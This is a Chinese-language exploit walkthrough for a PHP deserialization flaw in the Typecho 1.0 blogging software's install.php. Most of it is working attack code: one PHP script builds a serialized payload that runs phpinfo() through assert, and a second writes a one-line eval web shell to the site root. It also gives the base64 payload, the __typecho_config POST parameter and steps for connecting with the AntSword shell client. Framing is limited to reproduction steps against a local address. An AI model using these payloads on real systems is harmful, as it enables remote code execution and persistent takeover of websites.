








> 下载链接：https://pan.baidu.com/s/1z0w7ret-uXHMuOZpGYDVlw 
>           提取码：lt7a

首页



漏洞点：`/install.php?finish=`

### 漏洞利用

漏洞利用脚本 phpinfo()信息

```php
<?php
     //typecho_1.0(14.10.10)_unserialize_phpinfo.php
class Typecho_Feed{
	const RSS1 = 'RSS 1.0';
	const RSS2 = 'RSS 2.0';
	const ATOM1 = 'ATOM 1.0';
   	const DATE_RFC822 = 'r';
	const DATE_W3CDTF = 'c';
	const EOL = "\n";
	private $_type;
	private $_items;
	
	public function __construct(){
		$this->_type = $this::RSS2;
		$this->_items[0] = array(
			'title' => '1',
			'link' => '1',
			'date' => 1508895132,
			'category' => array(new Typecho_Request()),
			'author' => new Typecho_Request(),
		);
	}
}

class Typecho_Request{
	private $_params = array();
	private $_filter = array();

	public function __construct(){
		$this->_params['screenName'] = 'phpinfo()';
		$this->_filter[0] = 'assert';
    }
}

$exp = array(
	'adapter' => new Typecho_Feed(),
	'prefix' => 'typecho_'
);

echo base64_encode(serialize($exp));
?>
```



得到base64编码后的结果

```bash
YToyOntzOjc6ImFkYXB0ZXIiO086MTI6IlR5cGVjaG9fRmVlZCI6Mjp7czoxOToiAFR5cGVjaG9fRmVlZABfdHlwZSI7czo3OiJSU1MgMi4wIjtzOjIwOiIAVHlwZWNob19GZWVkAF9pdGVtcyI7YToxOntpOjA7YTo1OntzOjU6InRpdGxlIjtzOjE6IjEiO3M6NDoibGluayI7czoxOiIxIjtzOjQ6ImRhdGUiO2k6MTUwODg5NTEzMjtzOjg6ImNhdGVnb3J5IjthOjE6e2k6MDtPOjE1OiJUeXBlY2hvX1JlcXVlc3QiOjI6e3M6MjQ6IgBUeXBlY2hvX1JlcXVlc3QAX3BhcmFtcyI7YToxOntzOjEwOiJzY3JlZW5OYW1lIjtzOjk6InBocGluZm8oKSI7fXM6MjQ6IgBUeXBlY2hvX1JlcXVlc3QAX2ZpbHRlciI7YToxOntpOjA7czo2OiJhc3NlcnQiO319fXM6NjoiYXV0aG9yIjtPOjE1OiJUeXBlY2hvX1JlcXVlc3QiOjI6e3M6MjQ6IgBUeXBlY2hvX1JlcXVlc3QAX3BhcmFtcyI7YToxOntzOjEwOiJzY3JlZW5OYW1lIjtzOjk6InBocGluZm8oKSI7fXM6MjQ6IgBUeXBlY2hvX1JlcXVlc3QAX2ZpbHRlciI7YToxOntpOjA7czo2OiJhc3NlcnQiO319fX19czo2OiJwcmVmaXgiO3M6ODoidHlwZWNob18iO30
```

​	请求体参数是`__typecho_config=`，上面base64编码后的结果就是该参数的值



#### GetShell

payload如下：

```php
<?php
    //typecho_1.0(14.10.10)_unserialize_GetShell.php
class Typecho_Request
{
    private $_params = array();
    private $_filter = array();

    public function __construct()
    {
        $this->_params['screenName'] = 'file_put_contents(\'123.php\',\'<?php @eval($_POST[shell]);?>\')';
        $this->_filter[0] = 'assert';
    }
}

class Typecho_Feed
{
    private $_type;
    private $_items = array();
    public $dateFormat;

    public function __construct()
    {
        $this->_type = 'ATOM 1.0';
        $item['author'] = new Typecho_Request();
        $this->_items[0] = $item;
    }
}

$x = new Typecho_Feed();
$a = array(
    'adapter' => $x,
    'prefix' => 'typecho_'
);
echo "<pre>";
print_r($a);
echo "</pre>";
echo serialize($a)."<br>";
echo "__typecho_config=".base64_encode(serialize($a));
?>
```



`http://192.168.80.140/typecho_1.0(14.10.10)/build/install.php?finish=`

传递`post`参数`__typecho_config`值



点击执行，返回 状态码`500`




这个时候在网站的根目录下生成一个`123.php`一句话木马文件



浏览器访问一下这个`123.php`文件

然后使用蚁剑连接




